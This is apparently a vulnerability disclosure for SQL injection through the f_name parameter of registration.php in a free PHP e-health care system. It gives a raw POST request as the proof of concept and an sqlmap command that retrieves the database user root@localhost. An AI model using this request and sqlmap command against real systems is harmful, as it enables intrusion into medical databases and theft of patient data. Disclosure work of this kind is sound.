 # E-Health Care System IN PHP registration.php has SQL injection vulnerability

## supplier
https://code-projects.org/e-health-care-system-in-php-css-js-and-mysql-free-download/
## Vulnerability file
registration.php
## describe
There are unrestricted SQL injection attacks in the health system. Controllable parameters: f_name. In registration.php, there is no restriction on adding f_name parameters to SQL statements. You can obtain sensitive information from the database.
## code analysis
The f_name parameters of the registration.php are not filtered and concatenated into the SQL statement for execution.

![image-20241103005850113](https://github.com/user-attachments/assets/8401cb81-8605-4124-a418-5008a0098aed)

![image-20241103005920138](sql14.assets/image-20241103005920138.png)



## POC

```
POST /Users/registration.php HTTP/1.1
Host: healthcare
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
Origin: http://healthcare
Connection: close
Referer: http://healthcare/Users/registration.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

f_name=1*&l_name=1&email=1&contact=1&address=1&DOB=0001-11-02&gender=male&maritialstatus=married&pswd=123456789&submit=register
```

save as 1.txt

execute this command.

```
 python sqlmap.py -r 1.txt --current-user
```

Get the current_user:  root@localhost

![image-20241103010038902](https://github.com/user-attachments/assets/9ba1cffb-9a6b-4aee-b304-78fb4c2df336)

